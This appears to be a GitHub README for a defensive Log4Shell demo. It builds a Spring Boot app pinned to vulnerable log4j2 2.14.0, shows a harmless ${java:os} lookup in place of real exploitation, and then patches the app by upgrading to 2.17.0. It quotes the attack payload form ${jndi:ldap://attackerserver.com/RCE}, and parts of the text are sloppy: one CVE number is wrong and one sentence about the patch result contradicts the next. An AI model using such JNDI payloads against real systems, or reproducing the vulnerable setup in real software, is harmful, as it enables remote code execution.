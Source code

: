 # [Log4Shell](https://github.com/WISeAgent/log4j2) Demo - a non-intrusive and user friendly version
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.  

**tl;dr**

Log4Shell vulnerability in plain English:

1. Vulnerable Web application trusts the user data which shouldn't be trusted, eg. this demo project

2. Vulnerable Log4j2 is used by web app for logging 

3. The lookup() implementation from org.apache.logging.log4j.core package in the Vulnerable Log4j2 envluates variable ${key:value} in log message and substitute the variable with value. It opens the door and exposes the vulnerability.

Once the door is opened, all you need is your imagation/creativity to craft various of payloads and delivery methods to exploit this log4j2 vulnerability.

The CVS-2021-42288 uses carefully brafted ${jndi:ldap://....} payout.

Spring Boot is using logback by default. It is supporting the use of log4j2 and hance it's exposed to this vulnerability if Log4j2 is not patched.

**Hacking is illegal!** It's not a good idea to encourage exploitation of this vulunerability. That being said, developer/blue team member should have better understanding on the "how" so to build a better and secured application.

The purpose of this demo is for developer/blue team member to understand how older version of log4j2 is being exploitted and how to patch it. Instead of using ${jndi:ldap://attackerserver.com/RCE} as payload, we display the OS version instead in this demo.  

## Create a New Maven Demo Project for Log4Shell(CVE-2021-44228)
### 1. Create an empty project using Spring CLI
    spring init --name=vul-log4j2 packaging=jar --package-name=au.com.wiseagent.springboot.log4j2 -a=vul-log4j2 --dependencies=web log4j2
    
### 2. Update pom.xml to use vulnerable version of log4j2
- Under <properties> section, inster a line to use vulnerable log4j2 verion, eg. 2.14.0  

      <properties>
      <java.version>1.8</java.version>
      <!-- to use the vulnerable version: CVE-2021-44228 -->
      <log4j2.version>2.14.0</log4j2.version>
      </properties>
  
- To disable default logback, and using log4j2  

      <!-- Exclude Spring Boot's Default Logging -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter</artifactId>
        <!-- disable default logging -->
        <exclusions>
          <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
          </exclusion>
        </exclusions>
      </dependency>

      <!-- Add Log4j2 Dependency -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
      </dependency>
### 3. Import the Maven project to your Eclipse IDE

### 4. Use Log4J2 log, to log environment variable ${java:os} as INFO instead of ${jndi:ldap://...} trigger RCE
Here is the cutdown version of the REST API implemention pass payload as RequestParam.  
For demo purpose, instead of sanitized the payload, it's hard coded to a non-instructive operation, to log the environment value for OS 

    package au.com.wiseagent.springboot.log4j2;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.PathVariable;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.bind.annotation.RestController;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    @SpringBootApplication
    @RestController
    public class VulLog4j2Application {
        private static Logger logger = LogManager.getLogger(VulLog4j2Application.class);
        public static void main(String[] args) {
          SpringApplication.run(VulLog4j2Application.class, args);
        }

      @GetMapping("/PayLoad")
      @ResponseBody
        public String PayLoad(@RequestParam  String payload) {
        payload="${java:os}"; // override the payload
        logger.info(payload);
        return "payload received" + payload;
      }
    }

 ### 5. Start your REST API service from IDE or from command line  
    
        java -jar target/vul-log4j2-0.0.1-SNAPSHOT.jar
 
    
From your browser, entry to the following to trigger the REST API call.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
  
  ![image](https://user-images.githubusercontent.com/853925/147844381-a20bc303-47eb-4d8f-9c1e-582c9bd6d017.png)

**It can be observed that the variable ${java:os} has been evaluated, and replaced by the OS value in the log.**
## Patch your application for Log4Shell
### Update pom.xml file to use updated version of log4j2, which patched the CVE-2021-44228

      <properties>
      <java.version>1.8</java.version>
      <!-- to use updated version patched the CVE-2021-44228 -->
      <log4j2.version>2.17.0</log4j2.version>
      </properties>

### Stop and Start your REST API service from IDE or from command line again
From your browse, entry to the following to trigger the REST API call, and noticed that the ${java:OS} variable has been replace by the OS value in the INFO log.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
![image](https://user-images.githubusercontent.com/853925/147844478-65d0da64-f98a-4f11-b45a-d9a420f1ed04.png)


**It can be observed that the variable ${java:os} has not been evaluated, and it has elimiated the opportunity that an unsanitized user input being used to exploit the log4j2 vulnerability.**
